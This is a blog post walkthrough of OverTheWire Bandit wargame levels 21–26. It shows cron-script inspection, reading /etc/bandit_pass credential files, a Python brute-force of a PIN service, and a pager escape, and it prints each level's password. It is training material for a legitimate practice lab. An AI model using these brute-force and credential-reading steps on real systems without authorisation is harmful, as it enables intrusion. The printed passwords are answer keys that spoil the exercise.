 ```yaml
---
title: "Linux training with overthewire [Part 3/10: Bandit 21-30]"
author: Florian Courgey
layout: post
categories:
  - opensource
  - linux
  - bash
  - shell
  - hack
  - server
---
```

Excerpt here...
<!--more-->

This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-4 %})

### Level 21 - CRON
```bash
ssh -p 2220 bandit21@bandit.labs.overthewire.org
# gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr http://overthewire.org/wargames/bandit/bandit22.html
```
```bash
$ cat /etc/cron.d/
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
$ cat /usr/bin/cronjob_bandit22.sh
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

### Level 22 - Bash script 1
```bash
ssh -p 2220 bandit22@bandit.labs.overthewire.org
# Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI http://overthewire.org/wargames/bandit/bandit23.html
```
```bash
$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
$ myname=bandit23 && echo $(echo I am user $myname | md5sum | cut -d ' ' -f 1)
8ca319486bfbbc3663ea0fbe81326349
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

### Level 23 - Bash script 2
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
# jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n http://overthewire.org/wargames/bandit/bandit24.html
```
```bash
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
$ ls /var/spool/bandit24/
lol.sh  script.sh
$ cat /var/spool/bandit24/*
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AuFwziaI3a/lol.txt
$ cat /tmp/tmp.AuFwziaI3a/lol.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### Level 24 - Bruteforce script (in `python`)
```bash
ssh -p 2220 bandit24@bandit.labs.overthewire.org
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ http://overthewire.org/wargames/bandit/bandit25.html
```
Let's test first with `nc`
```bash
$ echo "$(cat /etc/bandit_pass/bandit24) 0000" | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
```
Now that we have our Bad Boy (Wrong...), it's Bruteforce time! From 0000 to 9999. I choose python and the standard `socket` library:
- `bytes_data = socket.recv(buffer_size)` to receive data
- `socket.sendall(bytes_data)` to send data

Quick test in python 3:
```bash
$ cd $(mktemp -d) && vim main.py
```
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024) # to remove first banner msg
for i in range(0,3):
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+str(i)+'\n'))
    print(s.recv(1024).decode()) # print response
```
```bash
$ python3 main.py
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
```

Full code in python:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024)
for i in range(0,9999):
    pin = str(i).zfill(4)
    if i%100 == 0:
      print('Sending '+pin)
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+pin+'\n'))
    data = s.recv(1024).decode()
    if not data.startswith('Wrong'):
      print('PIN '+pin+': 'data)
      exit()
```
```terminal
Sending 0000
Sending 0100
Sending 0200
Sending 0300
PIN 0378: Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level 25 - Custom shell
```bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG http://overthewire.org/wargames/bandit/bandit26.html
```

Exploit of the `more` command by reducing terminal's height so `more` hangs. This way we can execute command such as `v` to fire up a `vi` editor.

Then in `vi`: `:r /etc/bandit_pass/bandit26`.

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

### Level 26 -
```bash
ssh -p 2220 bandit26@bandit.labs.overthewire.org
# 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z http://overthewire.org/wargames/bandit/bandit27.html
```



This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-4 %})
